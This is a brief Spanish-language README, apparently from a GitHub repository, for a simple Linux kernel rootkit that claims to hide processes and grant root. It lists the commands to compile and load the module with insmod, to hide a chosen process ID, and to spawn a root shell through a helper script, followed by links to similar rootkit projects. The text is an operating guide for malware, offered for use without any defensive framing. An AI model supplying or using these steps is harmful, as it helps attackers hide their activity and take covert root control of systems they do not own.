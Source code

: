 #Rootkit simple para linux

  Este rootkit puede ocultar procesos y elevar privilegios como root

#Compilado:

      $ sudo apt-get install linux-headers-$(uname -r)
      $ cd rootkit
      # make

#Instalación:
      # insmod rt.ko

#Uso:

#Para ocultar algun proceso
      # tools/rtcmd.py hpXXXX    // XXXX -> PID

#Para devolver una terminal como root
      # tools/rtcmd.py modulo4root /bin/bash

#Referencias:

     ~https://github.com/ivyl/rootkit
     ~http://www.cyberciti.biz/tips/compiling-linux-kernel-module.html
     ~https://github.com/mrrrgn/simple-rootkit
